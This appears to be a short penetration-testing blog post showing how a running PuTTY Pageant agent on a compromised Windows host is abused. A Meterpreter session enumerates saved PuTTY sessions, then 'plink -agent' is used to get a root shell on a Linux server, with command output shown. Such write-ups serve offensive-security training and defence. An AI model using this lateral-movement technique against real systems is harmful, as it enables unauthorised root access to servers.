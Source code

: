 = Free Shells with Plink and Pageant
:hp-tags: metasploit, meterpreter, putty, ssh

Watching [Egypt](http://twitter.com/egyp7)’s talk at DEFCON 20 he mentioned the ability to jump on on a system when pageant (puTTY’s ssh-agent equivalent) is running. So I wanted to figure out the best way to get this going. Here is what I came up with:

```    
meterpreter > run enum_putty
[*] Putty Installed for [["Administrator"]]
[*] Saved SSH Server Public Keys:
[*]     rsa2@22:172.16.10.150
[*] Session corp_webserver:
[*]     Protocol: SSH
[*]     Hostname: 172.16.10.150
[*]     Username: root
[*]     Public Key:
meterpreter >
```

Awesome, this guy runs as root and we have the IP address. But it doesn’t have any public keys listed. That’s ok because Pageant is running. 

```   
meterpreter > shell
Process 3364 created.
Channel 1 created.
Microsoft Windows XP [Version 5.1.2600]
(C) Copyright 1985-2001 Microsoft Corp.

C:\Program Files\PuTTY>plink -agent root@172.16.10.150
plink -agent root@172.16.10.150
Welcome to Ubuntu 12.04 LTS (GNU/Linux 2.6.39.1-34 i686)
No mail.
Last login: Tue Aug 28 14:15:18 2012 from 172.16.10.100
root@172.16.10.150:~]$ id
uid=0(root) gid=0(root) groups=0(root)
```

w00t! An extra shell for free!!

![](/images/postimages/201208_freeshells_1.png)
